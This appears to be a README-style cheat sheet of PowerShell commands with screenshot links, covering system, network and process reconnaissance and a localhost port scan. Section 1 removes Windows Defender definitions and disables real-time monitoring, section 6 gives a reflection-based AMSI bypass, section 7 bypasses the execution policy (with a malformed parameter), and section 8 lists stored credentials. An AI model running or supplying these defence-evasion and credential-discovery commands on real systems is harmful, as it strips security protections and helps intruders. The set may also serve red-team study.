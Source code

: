 ## 1. Disable Windows Defender Realtime Monitoring
This command disables Windows Defender's real-time monitoring.
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```
![Screenshot of disabling Windows Defender](./images/screenshot1.png)
---
## 2. Get Detailed OS Information
This command retrieves all properties of the operating system.
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
```
![Screenshot of Get-WmiObject command](./images/screenshot2.png)
---
## 3. Network Interface Information 
This command retrieves network interface configuration, including IPv4 and IPv6 addresses.
```powershell
Get-NetIPConfiguration
```
![Screenshot of Network Interface Info](./images/screenshot3.png)
---
## 4. List Processes by CPU Usage
This command retrieves running processes and sorts them by CPU usage in descending order.
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```
![Screenshot of Get-Process command](./images/screenshot4.png)
---
## 5. Port Scanning 
This script first retrieves all active TCP connections, showing their state, local address, port, and owning process. </br>
It then performs a basic port scan on localhost, scanning ports 1 to 1024, and prints out any ports that are currently open.
```powershell

$tcpConnections = Get-NetTCPConnection | Select-Object -Property State, LocalAddress, LocalPort, OwningProcess
$tcpConnections

1..1024 | ForEach-Object {
    $sock = New-Object System.Net.Sockets.TcpClient
    $async = $sock.BeginConnect('localhost', $_, $null, $null)
    $wait = $async.AsyncWaitHandle.WaitOne(100, $false)
    if($sock.Connected) {
        Write-Host "$_"
    }
    $sock.Close()
}

```
![Screenshot of Port Scanning](./images/screenshot5.png)
---
## 6. Disable AMSI (Antimalware Scan Interface)
This command disables AMSI by manipulating internal PowerShell structures.
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```
![First Screenshot for AMSI Disable](./images/screenshot6_1.png)
![Second Screenshot for AMSI Disable](./images/screenshot6_2.png)
---
## 7. Bypass Execution Policy Temporarily
This command temporarily bypasses the execution policy for running scripts and then reverts it.
```powershell
$policy = Get-ExecutionPolicy; Set-ExecutionPolicy -ExecutionPolicyBypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
---
## 8. List Stored Credentials
This command lists all stored credentials.
```powershell
cmdkey/list
```
---

